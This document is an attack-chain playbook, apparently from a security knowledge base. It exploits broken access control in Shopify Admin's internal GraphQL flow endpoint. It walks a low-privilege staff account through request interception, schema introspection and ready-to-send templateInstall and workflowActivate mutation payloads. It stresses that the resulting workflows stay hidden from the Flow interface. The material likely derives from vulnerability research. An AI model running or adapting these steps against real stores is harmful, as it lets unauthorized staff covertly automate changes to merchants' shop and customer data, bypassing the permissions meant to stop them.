

# Broken Access Control in Shopify Admin GraphQL Endpoint for Unauthorized Workflow Creation

Multi-stage attack chain demonstrating exploitation of improper access control in Shopify Admin's GraphQL endpoint to enable low-privilege staff to create and activate workflows without required permissions.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Shopify Admin platform (Web)
- GraphQL endpoint at /admin/internal/web/graphql/flow
- Staff account with basic permissions (e.g., marketing)

### Initial Access Requirements

- Valid low-privilege staff credentials (no apps permission or Shopify Flow app installed)
- Network access to Shopify Admin (same-origin CORS)
- Proxy setup for request interception

## Detailed Attack Procedures

### Step 1: Intercept and Modify Shopify Admin Requests
procedure: [[procedures/Intercept-and-Modify-Shopify-Admin-Requests]]

**Objective**: Capture a legitimate Shopify Admin POST request and modify it to target the vulnerable GraphQL endpoint using a low-privilege account.

**Instructions**: Use Burp Suite to intercept any POST request from Shopify Admin. Forward it to the Repeater tab, change the path to /admin/internal/web/graphql/flow, add necessary headers (Cookie, X-Csrf-Token, Content-Type: application/json), and ensure the request uses a staff account with only marketing permissions.

**Expected Output**: Modified request ready for GraphQL queries, with a 200 OK response on initial send if headers are valid.

**Success Indicators**:
- Request successfully intercepted and modified without authentication errors
- Endpoint responds to basic POST without permission denial

### Step 2: Discover GraphQL Mutations via Introspection
procedure: [[procedures/Discover-GraphQL-Mutations-via-Introspection]]

**Objective**: Enumerate available GraphQL mutations on the endpoint to identify exploitable operations like templateInstall and workflowActivate.

**Instructions**: Send a GraphQL introspection query using the modified request in Burp Repeater. The query should request schema details for mutations.

**Expected Output**: Schema response listing mutations including templateInstall and workflowActivate.

**Success Indicators**:
- Introspection query succeeds without errors
- Mutations like templateInstall are exposed and accessible

### Step 3: Install Workflow Template via templateInstall
procedure: [[procedures/Install-Workflow-Template-via-templateInstall]]

**Objective**: Install a predefined workflow template using the discovered mutation, bypassing permission checks.

**Instructions**: Replace the request body with the [[commands/shopify-templateinstall-mutation]] GraphQL mutation, specifying a templateId (e.g., '977bf9aa-ae6a-4a7c-b3f2-051c9e856c6f') and an empty shopIds array. Send via Burp Repeater.

```json
{"operationName":"templateInstall","variables":{"templateId":"977bf9aa-ae6a-4a7c-b3f2-051c9e856c6f","shopIds":[]},"query":"mutation templateInstall($templateId: ID!, $shopIds: [ID!]!) {\n templateInstall(templateId: $templateId, shopIds: $shopIds) {\n installed {\n shopId\n workflowId\n workflowVersion\n __typename\n }\n errors {\n shopId\n message\n __typename\n }\n __typename\n }\n}\n"}
```

**Expected Output**: JSON response with installed workflow details, including workflowId and version, or errors if invalid.

**Success Indicators**:
- Workflow template installed successfully
- No permission errors returned

### Step 4: Activate Workflow via workflowActivate
procedure: [[procedures/Activate-Workflow-via-workflowActivate]]

**Objective**: Activate the installed workflow to enable unauthorized automation, such as tagging customer accounts on registration.

**Instructions**: Use the workflowId and version from the previous step in the [[commands/shopify-workflowactivate-mutation]] GraphQL mutation. Set contextType to 'shop' and contextId to the shop ID (e.g., '10979704928'). Send via Burp Repeater.

```json
{"operationName":"activateWorkflowMutation","variables":{"workflowId":"240ed0ee-d099-4066-8eac-7ce777ef4fe4","version":"acc5731a-7802-4622-857b-0191f8c0ee9d","contextType":"shop","contextId":"10979704928"},"query":"mutation activateWorkflowMutation($workflowId: ID!, $version: String, $contextType: String!, $contextId: ID!) {\n workflowActivate(\n workflowId: $workflowId\n version: $version\n contextType: $contextType\n contextId: $contextId\n ) {\n workflow {\n ...workflow\n __typename\n }\n __typename\n }\n}\n\nfragment workflow on Workflow {\n id\n name\n steps {\n ...step\n __typename\n }\n links {\n ...link\n __typename\n }\n activations {\n ...activation\n __typename\n }\n lastUpdated\n activationState\n versionState\n version\n parentVersion\n shopifyDomain\n shopifyName\n owner {\n contextId\n contextType\n __typename\n }\n ...validationErrors\n tags\n __typename\n }\n\n[full fragment definitions for step, task, stepConfig, link, activation, validationErrors]"}
```

**Expected Output**: JSON response confirming activation, with workflow details like activationState set to active.

**Success Indicators**:
- Workflow activated without permission denial
- Automation (e.g., tagging) begins operating on shop data

### Step 5: Verify Workflow Creation and Activation
procedure: [[procedures/Verify-Workflow-Creation-and-Activation]]

**Objective**: Confirm the workflow is created and active, noting it won't appear in the standard Flow app interface.

**Instructions**: Send a GraphQL query to the endpoint to retrieve workflow information using the workflowId.

**Expected Output**: Query response showing workflow details, activation state, and any triggered actions.

**Success Indicators**:
- Workflow details retrievable via GraphQL
- No visibility in standard Shopify Flow UI, confirming hidden automation

## Attack Chain Summary

### Key Achievements

1. Bypassed permission checks to access internal GraphQL endpoint with low-priv staff account
2. Installed and activated unauthorized workflows for data automation
3. Enabled potential confidentiality breaches through automated shop data modifications

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Lateral Movement]] Lateral Movement

---

*Last updated: 2023-10-01T00:00:00Z*
